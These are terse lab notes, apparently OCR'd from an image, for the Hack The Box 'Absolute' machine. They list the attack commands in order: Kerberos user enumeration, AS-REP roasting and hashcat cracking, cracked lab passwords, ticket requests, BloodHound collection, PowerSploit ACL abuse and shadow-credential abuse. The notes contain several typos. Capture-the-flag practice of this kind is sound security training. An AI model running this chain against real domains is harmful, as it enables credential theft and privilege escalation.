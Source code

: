 kerbrute userenum --dc absolute.htb -d absolute.htb /usr/share/wordlists/kerberos_enum_userlists/A-Z.Surnames.txt

impacket-GETNPUsers absolsute.htb/  -no-pass -usersfile users.txt

hashcat -m 18200 hash rockyou.txt

d.klay@absolute.htb    Darkmoonsky248girl

ntpdate -s absolute.htb 

impacket-getTGT 'absolute.htb/d.klay:Darkmoonsky248girl'

export KRB5CCNAME=d.klay.ccache

ntpdate -s absolute.htb

absolute.htb\mlovegod

AbsoluteLDAP2022!

#
ANY NTPDATE DO A PING ON THE IP AFTER




rm -rf m.lovegod.ccache    # if needed
impacket-getTGT 'absolute.htb/m.lovegod:AbsoluteLDAP2022!'
export KRB5CCNAME=m.lovegod.ccache

python3 bloodhound.py -u m.lovegod -d -d absolute.htb -dc dc.absolute.htb -ns 10.10.11.181 --dns-tcp --zip -no-pass -c All

BUNCH OF POWERSHELL THINGS called PowerSPloit

$dc_domain="ABSOLUTE.HTB"
$SecPassword = ConvertTo-SecureString "AbsoluteLDAP2022!"  -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('ABSOLUTE.HTB\m.lovegod', $SecPassword)
Add-DomainObjectACL -Credential $Cred -TargetIdentity "Network Audit" -Rights all -DomainController DC.ABSOLUTE.HTB -princip
Add-ADPrincipalGroupMembership -Identity m.lovegod -MemberOf 'Network Audit' -Credential $Cred -Server DC.ABSOLUTE.HTB
Get-DomainGroupMember -Identity 'netowrk audit' -Domain $dc_domain -DomainController DC.ABSOLUTE.HTB -Credential $cred


then pyshisker -d absolute.htb -u "m.lovegod"  -k --no-pass -t "winrm_user"  --action "add"

cat /etc/krb5.conf

[libdefaults]
	default_realm = ABSOLUTE.HTB
[realms]
	ABSOLUTE.HTB = {
		kdc = DC.ABSOLUTE.HTB
		admin_server = ABSOLUTE.HTB
}

